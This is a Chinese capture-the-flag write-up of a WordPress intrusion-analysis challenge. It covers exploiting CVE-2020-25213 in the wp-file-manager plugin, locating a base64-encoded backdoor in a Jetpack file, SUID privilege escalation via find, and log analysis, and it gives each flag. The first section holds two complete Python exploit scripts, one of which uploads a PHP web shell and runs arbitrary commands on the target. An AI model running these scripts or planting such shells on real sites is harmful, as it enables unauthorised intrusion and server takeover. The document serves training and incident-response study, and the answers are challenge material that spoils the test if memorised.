










# 2025新春挑战赛


### 2025新春挑战赛-入侵分析

```
除夕夜前夕，一位专注于科幻小说创作的作者发现自己的WordPress博客站点遭到黑客入侵。这个博客主要用于连载《故障乌托邦》系列小说，记录着作者精心创作的未来世界故事。在准备更新新章节时，作者发现服务器被植入了webshell，无法正常登录后台管理界面，众多在家准备过年的读者也纷纷反馈网站打开异常。经初步排查，攻击者可能利用了WordPress插件的漏洞。为了能在春节期间恢复网站正常运营，让读者继续探索这个未来世界的故事，现需要你复现攻击过程，找出入侵路径。

flag格式：flag{CVE编号_插件名}
```

这道题存在wp插件漏洞

[CVE-2020-25213 WordPress远程代码执行漏洞复现 - Salvere - 博客园](https://www.cnblogs.com/Salvere-Safe/p/14995249.html)

百度一下找到CVE-2020-25213

验证一下

访问url/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php



显示{"error":["errUnknownCmd"]}说明漏洞存在

POC

```python
#!/usr/bin/env

# Exploit Title: [ Unauthenticated Arbitrary File Upload leading to RCE ]
# Date: [ 22-01-2023 ]
# Exploit Author: [BLY]
# Vendor Homepage: [https://wpscan.com/vulnerability/10389]
# Version: [ File Manager plugin 6.0-6.9]
# Tested on: [ Debian ]
# CVE : [ CVE-2020-25213 ]

import sys,signal,time,requests
from bs4 import BeautifulSoup
#from pprint import pprint

def handler(sig,frame):
	print ("[!]Saliendo")
	sys.exit(1)

signal.signal(signal.SIGINT,handler)

def commandexec(command):

	exec_url = url+"/wp-content/plugins/wp-file-manager/lib/php/../files/shell.php"
	params = {
		"cmd":command
	}

	r=requests.get(exec_url,params=params)

	soup = BeautifulSoup(r.text, 'html.parser')
	text = soup.get_text()

	print (text)
def exploit():

	global url

	url = sys.argv[1]
	command = sys.argv[2]
	upload_url = url+"/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php"

	headers = {
			'content-type': "multipart/form-data; boundary=----WebKitFormBoundaryvToPIGAB0m9SB1Ww",
			'Connection': "close" 
	}

	payload = "------WebKitFormBoundaryvToPIGAB0m9SB1Ww\r\nContent-Disposition: form-data; name=\"cmd\"\r\n\r\nupload\r\n------WebKitFormBoundaryvToPIGAB0m9SB1Ww\r\nContent-Disposition: form-data; name=\"target\"\r\n\r\nl1_Lw\r\n------WebKitFormBoundaryvToPIGAB0m9SB1Ww\r\nContent-Disposition: form-data; name=\"upload[]\"; filename=\"shell.php\"\r\nContent-Type: application/x-php\r\n\r\n<?php echo \"<pre>\" . shell_exec($_REQUEST['cmd']) . \"</pre>\"; ?>\r\n------WebKitFormBoundaryvToPIGAB0m9SB1Ww--"

	try:
		r=requests.post(upload_url,data=payload,headers=headers)
		#pprint(r.json())
		commandexec(command)
	except:
		print("[!] Algo ha salido mal...")


def help():

	print ("\n[*] Uso: python3",sys.argv[0],"\"url\" \"comando\"")
	print ("[!] Ejemplo: python3",sys.argv[0],"http://wordpress.local/ id")


if __name__ == '__main__':

	if len(sys.argv) != 3:
		help()

	else:
		exploit()

```

or

```python
import argparse
import requests
import re
import sys
import os
import json
import random

user_agents = [
    'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36',
    'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Edge/92.0.902.55',
    'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:90.0) Gecko/20100101 Firefox/90.0',
    'Mozilla/5.0 (Macintosh; Intel Mac OS X 11_5_2) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.1.2 Safari/605.1.15',
    'Mozilla/5.0 (Macintosh; Intel Mac OS X 11_5_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36',
    'Mozilla/5.0 (Macintosh; Intel Mac OS X 11_5_2) AppleWebKit/537.36 (KHTML, like Gecko) Edge/92.0.902.55',
    'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:90.0) Gecko/20100101 Firefox/90.0',
    'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36',
    'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Edge/92.0.902.55'
]

def create_parser():
	parser = argparse.ArgumentParser(description='Exploit WP File Manager plugin')
	parser.add_argument('url', metavar='url', type=str, help='WordPress target URL')
	parser.add_argument('--upload-file', dest='upload_file', type=str, default=None, help='File to upload')
	parser.add_argument('--check', dest='check', action='store_true',
						help='Check if WP File Manager plugin is vulnerable')
	parser.add_argument('--verbose', dest='verbose', action='store_true', help='Enable verbose output')
	return parser


def check_wp_file_manager_version(url):
	target_endpoint = f"{url}/wp-content/plugins/wp-file-manager/readme.txt"
	user_agent = random.choice(user_agents)
	is_vulnerable = True

	try:
		response = requests.get(target_endpoint, headers={'User-Agent': user_agent}, timeout=5)
		version = re.search(r'== Changelog ==.*?([0-9]\.[0-9])', response.text, re.DOTALL)
		if version:
			version = version.group(1)
			print(f"[+] Found wp-file-manager version: {version}")
			patched_version = "6.9"
			smaller_version = min(version, patched_version)
			if version != patched_version and smaller_version == version:
				print("[+] Version appears to be vulnerable")
			else:
				print("[-] Version doesn't appear to be vulnerable")
				is_vulnerable = False
		else:
			print("[-] Unable to detect version. May be wp-file-manager plugin not installed.")
			is_vulnerable = False

		if not is_vulnerable:
			choice = input("Do you still want to continue (y/N): ")
			if choice.lower() not in ('y', 'yes'):
				print("Exiting...")
				sys.exit()
	except requests.exceptions.RequestException as e:
		print(f"[-] Error occurred while checking {url}: {e}")
		sys.exit()


def check_wp_file_manager(url):
	check_wp_file_manager_version(url)

	target_endpoint = f"{url}/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php"
	user_agent = random.choice(user_agents)

	try:
		response = requests.get(target_endpoint, headers={'User-Agent': user_agent}, timeout=5)
		is_vulnerable = re.search(r'\{\"error\":\["errUnknownCmd"\]\}', response.text)
		if is_vulnerable:
			print(f"[+] Target: {url} is vulnerable")
		else:
			print(f"[-] Target: {url} is not vulnerable")
	except requests.exceptions.RequestException as e:
		print(f"[-] Error occurred while checking {url}: {e}")


def exploit_wp_file_manager(url, file_upload, verbose):
	target_endpoint = f"{url}/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php"
	user_agent = random.choice(user_agents)
	try:
		response = requests.post(target_endpoint, headers={'User-Agent': user_agent}, timeout=5, data={
			'reqid': '17457a1fe6959',
			'cmd': 'upload',
			'target': 'l1_Lw',
			'mtime[]': '1576045135',
		}, files={
			'upload[]': open(file_upload, 'rb')
		})

		if verbose:
			print("Request method:", response.request.method)
			print("Request URL:", response.request.url)
			print("Request headers:", response.request.headers)
			print("="*50)
			print("Response status code:", response.status_code)

		file_upload_url = response.json().get('added', [{}])[0].get('url')
		if file_upload_url:
			print(f"[+] File uploaded successfully.\nLocation: {file_upload_url}")
		else:
			print("[-] File upload failed.")
	except requests.exceptions.RequestException as e:
		print(f"[-] Error occurred while exploiting {url}: {e}")
		return


if __name__ == "__main__":
	parser = create_parser()
	args = parser.parse_args()
	wp_url = args.url
	upload_file = args.upload_file
	verbose = args.verbose
	check = args.check

	if check:
		check_wp_file_manager(wp_url)
		sys.exit()
	elif upload_file is None:
		print("[-] No file specified.")
		sys.exit()
	elif not isinstance(upload_file, str):
		print("[-] Invalid file name.")
		sys.exit()
	elif not os.path.isfile(upload_file):
		print("[-] File not found.")
		sys.exit()

	exploit_wp_file_manager(wp_url, upload_file, verbose)
```

flag{CVE-2020-25213_wp-file-manager}




写马，蚁剑连


### 2025新春挑战赛-新年隐患

```
正当《故障乌托邦》的作者准备在除夕之际更新新的章节时，敏锐地发现了一丝异常。这个寄托着科幻世界的WordPress博客，就像是笼罩了一层挥之不去的迷雾。在检查过程中，作者意识到plugins目录下的某个插件中潜伏着一段后门代码，如同一个披着羊皮的狼，悄悄地潜入了这个充满未来想象的空间。
在这个万家灯火的春节前夕，需要你帮助作者：
找出这个被污染的插件，就像是在庙会里找出那个做了手脚的灯笼
分析这个后门是在什么时候会被触发，仿佛解读一个有着特定时辰的机关
找出它偷偷传送数据的方式，就像追踪年兽留下的足迹
在后门代码的注释中找到flag，它藏在代码的字里行间，如同春联中暗藏的诗句
```

根据hint，flag藏在后门代码中

既然这样，那我们现在有两个思路，一是通过找到flag找到后门代码，而是通过找到后门代码从而得到flag

#### 方法一

首先用grep命令搜flag

```
grep -r 'flag{'
```

没有找到

猜测是进行了编码

将flag base64加密后

```
grep -r 'ZmxhZ'
```



拿到flag

```
ZmxhZ3tiNGNrZDAwcl9qZXRwYWNrX2FpX2NoYXRfMjAyNH0=
flag{b4ckd00r_jetpack_ai_chat_2024}
```

后门文件为 jetpack/extensions/blocks/ai-chat/ai-response.php


#### 方法二

vshell上线



将plugins文件夹打包下载下来，用d盾杀





找到后门源码和flag


### 2025新春挑战赛-提权挑战

简单的suid提权

```
find / -perm -u=s -type f 2>/dev/null

find / -user root -perm -4000-print2>/dev/null

find / -user root -perm -4000-exec ls -ldb {} \;
```

随便一句，尝试查找具有root权限的SUID的文件



[GTFOBins](https://gtfobins.github.io/#find)



找到find的suid利用方式




### 2025新春挑战赛-时光追溯

提权之后我们就可以做这题了

apache2的log文件在

```
/var/log/apache2
```

这个文件夹读写需要root权限

将log文件下载下来之后，直接根据我们第一题的攻击路径搜即可

```
/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php
```




```
flag{md5(24/Jan/2025:15:11:00-37.106.98.98-/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php)}

flag{c40bc119b7c30c0d48ac0e25749e3be0}
```


